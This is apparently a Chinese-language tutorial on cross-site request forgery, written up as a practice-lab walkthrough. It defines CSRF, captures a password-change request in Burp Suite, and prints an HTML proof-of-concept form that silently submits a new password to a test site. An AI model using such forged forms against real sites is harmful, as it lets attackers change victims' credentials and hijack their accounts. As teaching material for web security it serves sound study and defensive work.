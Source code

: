 # CSRF攻击

[CSRF攻击参考链接](https://www.cnblogs.com/liuhuan086/p/14752017.html)

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：**简单的身份验证只能保证请求是发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。



## 示例

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823222326.png)

登录之后，打开burpsuite并抓包，点击修改密码查看抓包的内容。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823225636.png)

然后使用burpsuite来构造PoC，emmm，需要专业版才能使用`构造CSRF PoC`的功能。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823224231.png)

那就通过其他方式手动生成PoC吧。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
      <input type="hidden" name="password" value="a123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

将上面的内容保存成`.html`文件，然后通过浏览器打开，查看页面只有一个`Submit request`按钮。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230424.png)

点击按钮再查看结果，发现提示修改成功。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230752.png)

